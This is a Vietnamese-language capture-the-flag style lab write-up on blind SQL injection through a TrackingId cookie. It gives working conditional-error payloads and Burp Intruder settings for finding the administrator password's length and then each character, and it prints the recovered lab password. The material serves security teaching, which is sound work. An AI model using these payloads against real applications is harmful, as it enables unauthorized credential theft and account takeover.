









# SQL Injection Lab 12: Blind SQL Injection with Conditional Errors

## Mục tiêu
Khai thác blind SQLi qua cookie `TrackingId` bằng kỹ thuật tạo lỗi có điều kiện để tìm mật khẩu của `administrator`.

## Đề bài

<br><br>

## Bước 1: Xác định điểm tiêm và cơ chế phản hồi lỗi
Trong lab này, điều kiện đúng/sai kiểu boolean không làm giao diện khác nhau rõ rệt, nên ta dùng payload gây lỗi có điều kiện.

Xác nhận tồn tại `administrator`:

```sql
' OR (SELECT 'a' FROM users WHERE username='administrator')='a' --
```


<br><br>

Payload kiểm tra cơ chế error-based:

```sql
' OR (SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)='a' --
' OR (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)='a' --
```

- Khi `1=0`: không lỗi, trang hiển thị bình thường.
- Khi `1=1`: thực thi `1/0`, server trả về lỗi.


<br><br>

<br><br>

## Bước 2: Dò độ dài mật khẩu
Dùng điều kiện độ dài để gây lỗi khi đúng:

```sql
' OR (SELECT CASE WHEN LENGTH(password)>§1§ THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a' --
```

Thiết lập Intruder (Sniper) với payload số `1..25` cho `§1§`.


<br><br>

<br><br>

Từ kết quả: khi `n <= 19` thì lỗi (status 500), đến `n=20` thì không lỗi nữa -> suy ra `LENGTH(password)=20`.

## Bước 3: Dò từng ký tự mật khẩu
Payload theo từng vị trí + ký tự so sánh:

```sql
' OR (SELECT CASE WHEN SUBSTR(password,§1§,1)='§2§' THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a' --
```

Cấu hình Intruder `Cluster bomb`:
- Payload 1: vị trí ký tự `1..20`
- Payload 2: tập ký tự `0-9a-z`


<br><br>

<br><br>

Sort kết quả theo `Status code`/`Length`, lấy các dòng lỗi (500) và ghép theo thứ tự `Payload 1` để ra mật khẩu:

```text
9w6yclexl0xomvgt42g7
```


<br><br>

## Payload solve

```sql
' OR (SELECT CASE WHEN SUBSTR(password,§1§,1)='§2§' THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a' --
```

## Kết quả
Tìm được mật khẩu `administrator` là `9w6yclexl0xomvgt42g7` và đăng nhập thành công.
